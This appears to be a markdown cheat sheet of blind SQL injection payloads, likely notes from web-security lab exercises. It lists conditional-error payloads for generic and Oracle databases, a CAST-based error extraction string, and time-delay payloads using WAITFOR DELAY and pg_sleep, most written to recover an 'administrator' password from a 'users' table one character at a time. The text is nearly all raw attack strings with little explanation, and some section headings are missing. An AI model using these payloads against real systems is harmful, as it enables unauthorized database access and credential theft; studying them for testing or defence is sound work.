 	' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
	' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
	' AND (SELECT CASE WHEN (LENGTH(password)>1) THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')='a
	' AND (SELECT CASE WHEN (SUBSTR(password,15,1)='a') THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')='a
## Oracle databases

	'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
	'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
	'||(SELECT CASE WHEN (payload) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
	
	'|| (SELECT CASE WHEN (SUBSTR(password,15,1)='a') THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator') ||'
	'|| (SELECT CASE WHEN (length(password)>1) THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator') ||'

## Extracting sensitive data via verbose SQL error messages
	' and 1=CAST((SELECT example_column FROM example_table) AS int)-- -

## Exploiting blind SQL injection by triggering time delays
#### Microsoft SQL Server
	'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND (LENGTH(password)>1) = 1 WAITFOR DELAY '0:0:{delay}'--
	'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

	';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

	;SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
	;SELECT CASE WHEN (username='administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
